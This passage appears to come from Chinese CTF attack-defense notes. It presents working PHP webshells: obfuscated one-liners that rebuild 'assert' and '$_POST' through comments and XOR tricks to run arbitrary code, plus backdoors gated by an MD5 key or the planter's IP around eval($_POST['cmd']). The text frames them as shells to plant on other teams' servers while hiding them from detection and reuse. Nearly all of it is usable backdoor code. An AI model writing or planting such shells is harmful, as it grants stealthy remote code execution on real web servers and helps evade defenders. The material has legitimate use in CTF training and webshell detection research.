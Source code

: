 #### 2. 混淆马：让木马难以识别

变换成

```php
<?php                
 
@$_='s'.'s'./*-/*-*/'e'./*-/*-*/'r';                  
 
@$_=/*-/*-*/'a'./*-/*-*/$_./*-/*-*/'t';                  
 
@$_/*-/*-*/($/*-/*-*/{'_P'./*-/*-*/'OS'./*-/*-*/'T'}                  
 
[/*-/*-*/0/*-/*-*/-/*-/*-*/2/*-/*-*/-/*-/*-*/5/*-/*-*/]);

```

`$_POST[0]($_POST[1]); `: 

```php
    <?php  
     
    @$_++; // $_ = 1  
     
    $__=("#"^"|"); // $__ = _  
     
    $__.=("."^"~"); // _P  
     
    $__.=("/"^"`"); // _PO  
     
    $__.=("|"^"/"); // _POS  
     
    $__.=("{"^"/"); // _POST  
     
    ${$__}[!$_](${$__}[$_]); 
     
    ?> 
```

#### 3. 验证马

给别人种马的时候可以使用验证方式防止被人利用：

* md5 验证

  ```php
  if(md5($_GET['key1'])==="202cb962ac59075b964b07152d234b70")
  {
      ......
  }
  ```

* IP 验证： MD5马相对普通马，安全性有了一定提升，但并不能完全杜绝其他队伍的利用。一些队伍可以在php页面内包含waf，抓取流量来获取木马的利用url，可以看到连接小马获取flag的参数。经过复现后，同样能获得flag。于是就有了识别ip的php马。

  ```php
      <?php
       
      $ip="x.x.x.x"; //自己的ip
       
      if ($_SERVER['REMOTE_ADDR']===$ip)
       
      {
       
          @eval($_POST["cmd"]);
       
      }
  ```
